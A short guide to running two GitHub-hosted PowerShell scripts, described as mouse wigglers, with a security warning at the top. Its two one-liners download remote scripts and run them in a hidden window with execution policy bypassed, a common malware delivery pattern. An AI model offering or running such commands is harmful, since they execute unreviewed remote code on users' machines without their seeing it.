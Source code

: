 # Mastering Remote PowerShell Script Execution from GitHub

## CRITICAL SECURITY ADVISORY: 
Running scripts or commands from unverified or untrusted sources can expose your system to significant risks, including malware, data theft, or unauthorized system modifications. Before executing any PowerShell script, especially those downloaded from remote sources like GitHub, meticulously inspect the code for potential malicious behavior, such as hidden downloads or remote code execution. This guide demonstrates how to safely execute PowerShell scripts from the szolll/MW1 repository, but you must verify all scripts before running them.

## Introduction: Running Remote PowerShell Scripts

PowerShell is a powerful scripting language for task automation and system management. The szolll/MW1 GitHub repository provides two scripts, WMauto.ps1 and WM.ps1, designed for specific automation tasks. This guide explains how to download and execute these scripts directly from GitHub using PowerShell commands. It also includes detailed security precautions, script breakdowns, and best practices to ensure safe and effective usage.

The commands below fetch scripts from the szolll/MW1 repository, save them temporarily on your system, and execute their primary functions. These scripts are intended for automation purposes, such as simulating mouse activity to prevent idle timeouts, but their exact functionality depends on their code, which you must review before execution.


### Executing the xxx.ps1 Script

The WMauto.ps1 script, hosted in the szolll/MW1 repository, can be executed remotely using the following PowerShell command. This script is downloaded, saved to your system's TEMP directory, and executed by calling its MW function.

````powershell.exe -NoP -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/szolll/MW1/main/WMauto.ps1') | Out-File $env:TEMP\MW.ps1; . $env:TEMP\MW.ps1; MW"````

Or try :

```powershell.exe -NoP -W Hidden -Exec Bypass -Command "(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/szolll/MW1/main/WM.ps1') | Out-File $env:TEMP\MouseWiggler.ps1; . $env:TEMP\MouseWiggler.ps1; WiggleMouse"```
